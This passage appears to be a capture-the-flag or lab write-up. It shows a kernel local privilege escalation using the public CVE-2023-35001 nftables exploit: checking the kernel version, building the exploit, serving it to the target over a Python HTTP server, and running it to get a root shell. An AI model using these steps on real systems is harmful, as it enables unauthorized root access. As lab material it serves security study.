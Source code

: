 ```bash
www-data@webserver:/$ uname -r
uname -r
5.19.0-35-generic
```

okey lets clone repo and make it

https://github.com/synacktiv/CVE-2023-35001

```bash
➜  CVE-2023-35001 git:(master) make
go build
go: downloading github.com/mdlayher/netlink v1.4.2
go: downloading github.com/google/nftables v0.0.0-20220611213346-a346d51f53b3
go: downloading github.com/vishvananda/netns v0.0.0-20180720170159-13995c7128cc
go: downloading golang.org/x/sys v0.0.0-20211205182925-97ca703d548d
go: downloading github.com/mdlayher/socket v0.0.0-20211102153432-57e3fa563ecb
go: downloading github.com/josharian/native v0.0.0-20200817173448-b6b71def0850
go: downloading golang.org/x/net v0.0.0-20211209124913-491a49abca63
gcc -Wall -Wextra -Werror -std=c99 -Os -g0 -D_GNU_SOURCE -D_DEFAULT_SOURCE -D_POSIX_C_SOURCE=200809L src/wrapper.c -o wrapper
zip lpe.zip exploit wrapper
  adding: exploit (deflated 43%)
  adding: wrapper (deflated 83%)
➜  CVE-2023-35001 git:(master) ✗ ls
exploit  go.mod  go.sum  lpe.zip  main.go  Makefile  README.md  src  wrapper

```

we have to upload **exploit and wrapper**

```bash
➜  CVE-2023-35001 git:(master) ✗ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.241 - - [05/Jul/2025 00:03:45] "GET /exploit HTTP/1.1" 200 -
10.10.11.241 - - [05/Jul/2025 00:04:24] "GET /wrapper HTTP/1.1" 200 -
```

and booommm

```bash
www-data@webserver:/tmp$ ./exploit
./exploit
[+] Using config: 5.19.0-35-generic
[+] Recovering module base
[+] Module base: 0xffffffffc081a000
[+] Recovering kernel base
[+] Kernel base: 0xffffffffbb600000
[+] Got root !!!
# id
id
uid=0(root) gid=0(root) groups=0(root)
# 
```
